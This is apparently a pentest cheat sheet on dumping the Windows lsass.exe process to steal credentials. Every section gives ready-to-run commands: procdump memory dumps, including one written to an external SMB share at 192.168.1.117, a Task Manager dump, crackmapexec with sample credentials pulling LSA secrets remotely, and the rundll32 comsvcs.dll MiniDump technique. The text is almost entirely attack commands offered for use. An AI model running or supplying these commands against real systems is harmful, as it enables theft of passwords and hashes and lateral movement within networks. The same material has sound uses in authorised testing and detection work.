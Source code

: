 ## Dumping `lsass.exe`

### Procdump:
- We can dump `lsass.exe` using `procdump.exe`
```
procdump.exe -accepteula -ma lsass.exe lsass_dump
procdump.exe (ps lsass).id data -ma
```
- Also can be done using PID
```
get-process lsass
OR
tasklist | findstr lsass

procdump.exe -accepteula -ma 580 out.dmp
```
- Also can be done to an external share
```
procdump.exe (ps lsass).id \\192.168.1.117\share\data -ma
```

### Task Manager:
- We can dump using Task Manager
```
> lsass.exe
> Create Dump File
```

### Crackmapexec:
- Using `crackmapexec`
```
crackmapexec smb 192.168.0.76 -u testadmin -p Password123 --lsa
```

### Comsvcs:
- Dump using lsass PID
```
Get-Process lsass
 C:\Windows\System32\rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump 996 lsass.dmp full
```
